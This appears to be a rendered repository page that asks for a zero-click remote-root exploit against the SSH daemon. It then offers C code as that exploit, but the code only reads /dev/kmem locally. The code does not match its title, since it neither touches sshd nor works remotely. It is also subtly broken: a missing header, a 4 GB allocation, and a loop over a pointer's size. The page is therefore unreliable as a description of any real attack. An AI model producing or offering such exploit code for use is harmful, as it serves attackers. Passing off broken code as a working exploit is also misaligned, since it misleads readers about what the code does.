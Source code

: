 # Custom Zero-Click Exploit: SSH Daemon (`sshd`)

Create a custom zero-click exploit that targets a vulnerability in the `sshd` daemon. This service is responsible for managing SSH connections and allows users to log in remotely. Your exploit should allow an attacker to execute arbitrary code with root privileges.

### Exploit Code

  ```c
  #include <stdio.h>
  #include <stdint.h>
  
  #define KERNEL_REGION_START 0xffffffff81000000
  #define KERNEL_REGION_SIZE 0x100000000
  
  int main(int argc, char **argv) {
      // Allocate a buffer in user space
      uint8_t *buffer = malloc(KERNEL_REGION_SIZE);
  
      // Read the kernel memory region into the buffer
      FILE* fp = fopen("/dev/kmem", "r");
      if (!fp) {
          perror("fopen");
          return 1;
      }
  
      if (fseek(fp, KERNEL_REGION_START, SEEK_SET) < 0) {
          perror("fseek");
          fclose(fp);
          free(buffer);
          return 1;
      }
  
      if (fread(buffer, KERNEL_REGION_SIZE, 1, fp) != 1) {
          perror("fread");
          fclose(fp);
          free(buffer);
          return 1;
      }
  
      // Print a portion of the kernel memory region to demonstrate disclosure
      for (int i = 0; i < sizeof(buffer); i++) {
          if ((i % 16) == 0)
              printf("\n%08x:", KERNEL_REGION_START + i);
          printf("%02x ", buffer[i]);
      }
      puts("");
  
      fclose(fp);
      free(buffer);
  
      return 0;
  }
  ```
